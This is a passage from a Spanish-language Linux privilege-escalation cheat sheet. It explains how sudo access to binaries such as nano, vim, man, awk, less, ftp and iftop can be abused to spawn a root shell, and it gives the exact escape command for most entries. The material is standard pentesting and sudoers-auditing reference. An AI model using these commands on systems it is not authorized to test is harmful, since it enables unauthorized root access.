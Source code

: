 ```bash
sudo iftop
!/bin/sh
```


- **nano** → Nano permite leer la salida de comandos usando `Ctrl+R` > `Ctrl+X`. Si escribes `reset; sh`, ejecuta el comando `sh` (shell), como root.

```bash
sudo nano
^R^X
reset; sh 1>&0 2>&0
``` 


- **vim** → Vim tiene un comando (`:!`) para ejecutar comandos del sistema. El `-c` permite ejecutar comandos automáticamente al iniciar. Si `vim` se ejecuta con sudo, cualquier comando lanzado con `:!` es como root.

```bash
sudo vim -c ':!/bin/sh'
```


- **man** → `man` usa `less` como visor de páginas. `less` permite ejecutar comandos con `!`. Por eso puedes escapar con `!sh`.

```bash
sudo man man
!/bin/sh
```


- **awk** → `awk` tiene la función `system()` que puede ejecutar comandos del sistema. Si usas `sudo` con `awk`, el shell lanzado por `system()` es con privilegios root.

```bash
sudo awk 'BEGIN {system("/bin/sh")}'
```


- **less** → Tanto `less` como `more` (paginadores de texto) tienen funciones para ejecutar comandos externos. Al presionar `!` seguido de un comando (`sh`), lo ejecutan como root.

```bash
sudo less /etc/profile
!/bin/sh
```


-  **ftp** → El cliente `ftp` clásico tiene una opción para ejecutar comandos del sistema usando `!`. Si `ftp` está corriendo con sudo, el shell resultante es de root.

```bash
sudo ftp
!/bin/sh
```


- **nmap** → Versiones antiguas de `nmap` tienen un modo interactivo que incluye un shell embebido con soporte para ejecutar comandos externos con `!`.
